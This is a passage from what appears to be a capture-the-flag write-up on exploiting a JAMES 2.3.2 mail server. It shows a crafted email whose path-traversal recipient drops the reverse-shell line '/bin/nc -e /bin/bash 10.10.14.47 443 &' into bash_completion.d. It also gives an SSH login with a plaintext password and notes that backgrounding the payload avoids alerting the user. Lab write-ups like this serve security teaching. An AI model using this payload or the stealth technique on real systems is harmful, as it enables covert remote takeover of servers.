 It bugged me a little bit that when I connected SSH as mindy, the SSH
shell just hung while I worked on my `nc` shell. I wanted to see if I
could start a payload that didn't ruin the user's SSH connection. In a
real situation, I wouldn't want to break the user's experience and draw
attention to myself.

The best way to do this was with the `nc -e` payload. I found that if I
added a trailing `&`, it would start the process in the background and
allow the triggering process to continue. The email looks like:



    Return-Path: <'0xdf@10.10.14.47>^M
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>^M
    MIME-Version: 1.0^M
    Content-Type: text/plain; charset=us-ascii^M
    Content-Transfer-Encoding: 7bit^M
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost^M
    Received: from 10.10.14.47 ([10.10.14.47])^M
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252^M
              for <../../../../../../../../etc/bash_completion.d@localhost>;^M
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    FROM: 0xdf@10.10.14.47^M
    ^M
    '^M
    /bin/nc -e /bin/bash 10.10.14.47 443 &^M



mindy's SSH session has some extra junk text, but the prompt comes in
live immediately:



    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Apr 29 22:44:26 2020 from 10.10.14.47
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found
    -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])